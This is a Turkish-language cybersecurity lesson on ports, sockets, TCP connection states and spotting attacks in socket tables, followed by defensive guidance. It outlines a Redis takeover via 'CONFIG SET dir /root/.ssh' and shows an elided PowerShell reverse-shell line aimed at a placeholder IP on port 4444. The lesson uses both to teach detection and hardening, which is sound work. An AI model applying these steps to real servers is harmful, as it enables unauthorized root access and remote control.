

<!--
ÖZEL LİSANS — TÜM HAKLAR SAKLIDIR
Telif Hakkı (c) 2026 Seydi Eryılmaz (@seydivakkas)
Bu yazılım ve ilgili tüm dosyalar ("Yazılım") yalnızca görüntüleme ve eğitim amaçlıdır.
YAZARIN AÇIK YAZILI İZNİ OLMAKSIZIN HİÇBİR KULLANIM HAKKI TANINMAZ.
-->

# Gün 53: Port, Soket ve Bağlantı Durumu — Usta Dersi

> **Eğitmen Notu:**  
> *"Evlat, çömez bir siber güvenlikçi nmap çıktısında açık bir port gördüğünde hemen 'Sistemde zafiyet buldum!' diye sevinir. Oysa usta bir mühendis bilir ki: **Açık port tek başına bir zafiyet değildir.** Port sadece bir kapıdır; bir evin kapısının olması o evin soyulacağı anlamına gelmez. Zafiyet; o kapının kilitlenmemesi, arkasında sarhoş bir nöbetçinin beklemesi veya yalnızca içerideki odalara hizmet vermesi gereken bir kapının ana caddeye açılmasıdır. Bugün portların, soketlerin ve bağlantı durumlarının mimarisini, çekirdeğin bu kapıları nasıl yönettiğini ve siber saldırganların bu mekanizmaları nasıl istismar ettiğini en ince ayrıntısına kadar öğreneceksin."*

---

## 1. Giriş: Port ve Soket Kavramlarının Temeli

Ağ katmanında (Network Layer - IP), paketler bir cihazdan diğerine IP adresleri üzerinden ulaştırılır. Ancak bir bilgisayarda aynı anda web tarayıcısı, e-posta istemcisi, veritabanı ve oyun çalışabilir. Gelen paketin hangi uygulamaya ait olduğunu IP katmanı bilemez.

İşte bu noktada Taşıma Katmanı (Transport Layer - TCP/UDP) devreye girer ve **Port** kavramını kullanır:
- **Port:** 16-bit işaretsiz bir tamsayıdır ($0$ ile $65,535$ arası). İşletim sisteminin paketleri doğru sürece (process) yönlendirmesini (demultiplexing) ve süreçlerden gelen verileri hatta göndermesini (multiplexing) sağlar.
- **Soket (Socket):** Ağ üzerindeki iki yönlü bir iletişim uç noktasıdır. Yalnızca bir port numarası değil, bir **5'li Demet (5-Tuple)** ile tanımlanır:
  $$\text{Soket Kimliği} = (\text{Protokol}, \text{Yerel IP}, \text{Yerel Port}, \text{Uzak IP}, \text{Uzak Port})$$
  İşletim sistemi çekirdeği gelen her paketi bu 5'li demet ile soket tablosunda arar ve ilgili sürecin soket tamponuna (socket buffer) teslim eder.

---

## 2. IANA Port Tahsis Aralıkları ve Ayrıcalık Mimarisi

Internet Assigned Numbers Authority (IANA), 16-bitlik port havuzunu üç temel kategoriye ayırmıştır:

```
0                       1023 1024                   49151 49152                 65535
+---------------------------+---------------------------+---------------------------+
|     WELL-KNOWN PORTS      |     REGISTERED PORTS      |  DYNAMIC / EPHEMERAL      |
|  (Sistem / Ayrıcalıklı)   |   (Kayıtlı Uygulamalar)   |   (Geçici İstemci Oturumu)|
+---------------------------+---------------------------+---------------------------+
```

### 1. Well-Known Ports (0 - 1023):
- Sistem servisleri için ayrılmıştır (22 SSH, 53 DNS, 80 HTTP, 443 HTTPS, 445 SMB).
- **Ayrıcalık Kuralı:** Unix/Linux sistemlerde 1024'ten küçük bir portu dinlemek (bind/listen) için sürecin **Root** yetkisine (veya `CAP_NET_BIND_SERVICE` yeteneğine) sahip olması gerekir. Bunun tarihsel sebebi, sıradan bir kullanıcının sisteme sızıp SSH veya Web sunucusunun portunu ele geçirerek diğer kullanıcıların parolalarını çalmasını önlemektir.

### 2. Registered Ports (1024 - 49151):
- Üçüncü taraf yazılımlar ve veritabanları için IANA tarafından tescillenmiş portlardır.
- Örnekler: 1433 MSSQL, 1521 Oracle, 3306 MySQL, 3389 RDP, 5432 PostgreSQL, 6379 Redis, 8080 HTTP-Alt, 27017 MongoDB.
- Normal kullanıcı yetkisiyle çalışan süreçler tarafından dinlenebilir.

### 3. Dynamic / Private / Ephemeral Ports (49152 - 65535):
- İstemcilerin giden bağlantılarda geçici olarak tahsis ettiği portlardır.
- Örneğin siz tarayıcınızdan `google.com:443`'e bağlandığınızda, işletim sisteminiz rastgele bir port (örn. `52140`) tahsis eder. Bağlantı kapandığında bu port serbest bırakılır.

---

## 3. "Açık Port != Zafiyet": 0.0.0.0 vs 127.0.0.1 Bağlama Felaketi

Ağ güvenliğinde en ölümcül kavram yanılgısı bir portun dinlemede (`LISTEN`) olmasını doğrudan bir zafiyet sanmaktır.

### Kapının Adresi Neresi? (Bind Address)
Bir soket açılırken işletim sistemine hangi IP arayüzünü dinleyeceği söylenir:
1. **`127.0.0.1` (Loopback):** Soket yalnızca cihazın içinden gelen bağlantıları kabul eder. Ağ kartından veya internetten gelen hiçbir paket bu sokete erişemez. **Son derece güvenlidir.**
2. **`0.0.0.0` (INADDR_ANY):** Soket cihazın üzerindeki tüm ağ arayüzlerini (Ethernet, Wi-Fi, VPN, genel internet IP'si) dinler. Dış dünyadaki herkes bu porta erişebilir!

### Yaşanmış Felaket: Shodan ve Parolasız Redis / MongoDB
Geliştiriciler hız kazanmak için Redis veya MongoDB'yi kurar ve yapılandırmada `bind 0.0.0.0` bırakırlar. Varsayılan olarak kimlik doğrulaması kapalıdır.
- Saldırgan Shodan veya masscan ile interneti tarar.
- Port 6379'u açık görür.
- Port açık olduğu için değil; **0.0.0.0'a bağlandığı ve parolasız olduğu için** veritabanına doğrudan bağlanır, `CONFIG SET dir /root/.ssh` komutuyla kendi SSH anahtarını sunucuya yazar ve sisteme tam yetkili Root olarak sızar (RCE).
- **Ders:** Veritabanları ve iç servisler istisnasız `127.0.0.1`'e bağlanmalı veya katı bir güvenlik duvarı ardına gizlenmelidir!

---

## 4. RFC 793/9293 TCP Durum Makinesi ve Soket Yaşam Döngüsü

Bir TCP soketi ömrü boyunca çeşitli durumlardan geçer. Güvenlik analistinin bu durumları ezbere bilmesi şarttır:



### Kritik Durum Analizleri:
1. **`SYN_RECEIVED` Yığılması (SYN Flood Tehdidi):**  
   Sunucu bir SYN aldığında bu duruma geçer ve soket tablosunda TCB tahsis eder. Eğer yüzlerce soket `SYN_RECEIVED` durumunda bekliyorsa, saldırgan sahte IP'lerle SYN Flood yapıyor ve son ACK'ları göndermeyerek soket havuzunu tüketmeye çalışıyor demektir.
2. **`CLOSE_WAIT` Kilitlenmesi (Yazılım Hatası):**  
   Karşı taraf bağlantıyı kapattığı halde bizim yerel uygulamamız soketi `close()` etmemiştir. Sunucuda yüzlerce `CLOSE_WAIT` soketi birikmesi bir ağ sorunu değil, uygulama geliştiricisinin soketi kapatmayı unuttuğu bir bellek/kaynak sızıntısıdır (resource leak).
3. **`TIME_WAIT` ve 2*MSL Gizemi:**  
   Aktif kapanışı başlatan taraf son ACK'yı attıktan sonra hemen `CLOSED` olmaz; $2 \times \text{MSL}$ (Maximum Segment Lifetime, tipik 60-120 saniye) boyunca `TIME_WAIT` durumunda bekler.
   - **Neden?** İki hayati sebep:
     1. Karşı tarafın son ACK'yı alıp almadığından emin olmak (eğer son ACK kaybolursa karşı taraf yeniden FIN atar; TIME_WAIT bu FIN'e cevap verebilmek için bekler).
     2. Ağda gecikmiş eski paketlerin (stray packets), aynı port çiftiyle hemen açılacak yeni bir bağlantının verisiyle karışmasını engellemek.
   - **Tehlike:** Yüksek trafikli mikroservislerde veya ters vekil (reverse proxy) sistemlerinde yüz binlerce `TIME_WAIT` soketi birikirse, tüm ephemeral portlar tükenir (`Cannot assign requested address` hatası). Çözüm: Bağlantı havuzlama (Connection Pooling) ve `tcp_tw_reuse` yapılandırmasıdır.

---

## 5. Tehdit Avcılığı: Soket Tablosundan Saldırı Tespiti

Bir uç noktada (Endpoint) soket tablosunu izleyerek siber saldırıları saniyeler içinde yakalayabilirsiniz:

### A. Reverse Shell (Ters Kabuk) Tespiti
Geleneksel güvenlik duvarları dışarıdan içeriye gelen (inbound) trafiği engeller; fakat içeriden dışarıya çıkan (outbound) trafiğe izin verir. Saldırgan bu kuralı aşmak için **Reverse Shell** kullanır.  
Saldırgan kurban makinede şu komutu çalıştırır:
`powershell -e ... -> 198.51.100.77:4444`
- **Soket İmzası:**
  - Süreç: `powershell.exe` veya `cmd.exe`
  - Durum: `ESTABLISHED`
  - Uzak Port: `4444` (Metasploit varsayılanı) veya standart dışı portlar (`1337`, `8888`).
  - **Usta Kuralı:** Bir komut satırı yorumlayıcısının (`powershell.exe`, `bash`) internetteki harici bir IP'ye açık `ESTABLISHED` soket tutması %99 ihtimalle devam eden bir yetkisiz erişim ihlalidir!

### B. Komuta Kontrol (C2) Beaconing
Zararlı yazılım düzenli aralıklarla (jitter ile) dışarıdaki bir C2 IP'sine kısa ömürlü soketler açarak komut bekler. Soket tablosundaki periyodik `SYN_SENT` -> `ESTABLISHED` -> `TIME_WAIT` döngüsü C2 aktivitesini ele verir.

---

## 6. Usta Mühendislik İlkeleri ve Savunma Kontrolleri

1. **"Localhost Sınırını Asla Aşma":** Dış ağdan erişilmesi gerekmeyen tüm servisleri (Redis, PostgreSQL, MySQL, RabbitMQ) `127.0.0.1` adresine bağla (`bind 127.0.0.1`).
2. **"Egress (Giden) Filtrelemesi Uygula":** Güvenlik duvarınızda yalnızca yetkili sunucuların belirli portlara (80, 443, 53) dışarı çıkmasına izin verin. Giden tüm portları serbest bırakırsanız, ters kabuk saldırılarına davetiye çıkarırsınız.
3. **"Soket Envanteri Otomasyonu":** Sunucularda dinleyen portları (`ss -tulpn` veya PowerShell `Get-NetTCPConnection -State Listen`) günlük olarak tarayın ve bilinmeyen yeni bir dinleyici açıldığında SIEM üzerinden derhal alarm üretin.
